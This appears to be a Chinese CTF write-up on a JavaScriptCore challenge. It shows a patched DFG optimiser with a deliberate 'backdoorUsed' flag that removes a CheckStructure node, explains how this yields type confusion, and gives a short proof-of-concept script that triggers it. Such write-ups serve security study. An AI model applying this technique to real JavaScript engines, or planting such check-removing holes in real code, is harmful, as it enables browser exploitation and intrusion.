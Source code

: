 传入的一个block然后根据block去拿到每个一个block里的node，然后对每一个node进行一次switch判断其op。

```
case CheckStructure:
case ArrayifyToStructure: `{`
AbstractValue&amp; value = m_state.forNode(node-&gt;child1());
RegisteredStructureSet set;
if (node-&gt;op() == ArrayifyToStructure) `{`
set = node-&gt;structure();
ASSERT(!isCopyOnWrite(node-&gt;structure()-&gt;indexingMode()));
`}`
else `{`
set = node-&gt;structureSet();
if ((SpecCellCheck &amp; SpecEmpty) &amp;&amp; node-&gt;child1().useKind() == CellUse &amp;&amp; m_state.forNode(node-&gt;child1()).m_type &amp; SpecEmpty) `{`
m_insertionSet.insertNode(
indexInBlock, SpecNone, AssertNotEmpty, node-&gt;origin, Edge(node-&gt;child1().node(), UntypedUse));
`}`
`}`
if (!backdoorUsed || value.m_structure.isSubsetOf(set)) `{`
backdoorUsed = true;
m_interpreter.execute(indexInBlock); // Catch the fact that we may filter on cell.
node-&gt;remove(m_graph);
eliminated = true;
break;
`}`
break;
`}`
```

而漏洞部分就是判断op是否为CheckStructure、ArrayifyToStructure这两个case，之后进入patch部分，进行一个消除node，这两个case我们关注checkStructure这个case，因为基础部分介绍过，对象如何解析元素就是靠的Structure，而这CheckStructure是对对象的Structure的检查，如果两次传来的对象Structure不相同就会deopt，类似于v8的checkmaps部分，然后由于patch部分又是消除node，所以很容易想到通过patch的漏洞部分，来消除这个checkstructure，然后再次传入不同类型的对象，就可以做到类型混淆了。

而下面一部分的patch主要是为了防止一些非预期解法比如直接read flag，还有就是 利用debug和 describe去直接leak地址。本地调试时候 删掉这部分patch重新编译就行了。

## 漏洞利用

### **方法一：**

根据上述的分析，是在优化阶段，对CheckStructure进行的消除，不过这也是我们根据源码和patch进行的静态分析出来的，具体还是得看实际运行的时候是什么样的。

先构造个POC试试

```
var a1=`{`a:1.1,b:2.2,c:3.3,d:4.4,e:5.5`}`
var a2=`{`a:1.1,b:2.2`}`
function foo(a,b)`{`
a.e=b
`}`
for(let i=0;i&lt;100;i++)`{`
foo(a1,1.1)
`}`
foo(a2,1.1)
debug(describe(a1))
debug(describe(a2))
print(a1)
```
